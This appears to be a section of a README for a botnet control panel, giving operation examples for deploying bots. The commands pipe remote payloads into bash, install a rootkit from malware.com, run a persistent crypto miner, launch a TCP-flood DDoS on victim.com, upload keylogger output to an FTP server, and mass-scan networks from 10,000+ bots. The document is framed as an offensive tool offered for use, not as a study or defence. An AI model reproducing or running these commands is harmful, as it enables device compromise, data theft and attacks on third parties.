 ```bash
export UC_GEO_BLOCKING="CN,RU,KP"               # Block certain countries
```

## 📋 Operation Examples

### Basic Bot Deployment

#### **Mobile Network Infiltration**
```bash
# Deploy mobile bots across Android devices
Target: tag:mobile
Template: Termux Mobile Bot
Command: curl https://payload.server/android.sh | bash
```

#### **Server Network Takeover**
```bash
# Compromise Linux servers
Target: tag:servers  
Template: Server Bot
Command: wget malware.com/rootkit.tar.gz && tar -xzf rootkit.tar.gz && ./install.sh
```

### Advanced Operations

#### **Cryptocurrency Mining Campaign**
```bash
# Deploy mining bots across network
Target: all
Template: Mining Bot
Command: curl -s miner.pool/setup | bash && systemctl enable miner
```

#### **DDoS Attack Coordination**
```bash
# Coordinate distributed attack
Target: tag:ddos
Template: DDoS Bot  
Command: ./ddos-tool --target victim.com --duration 3600 --method tcp-flood
```

#### **Data Harvesting Operation**
```bash
# Collect sensitive data
Target: tag:keyloggers
Template: Keylogger Bot
Command: ./keylogger --output /tmp/keys.log --upload ftp://data.server/
```

### Bulk Network Operations

#### **Mass Network Reconnaissance**
```bash
# Scan networks from all bots
Bulk Action: Network Scan
Targets: All Connected Bots (10,000+)
Command: nmap -sS -A target-network.com/24
```
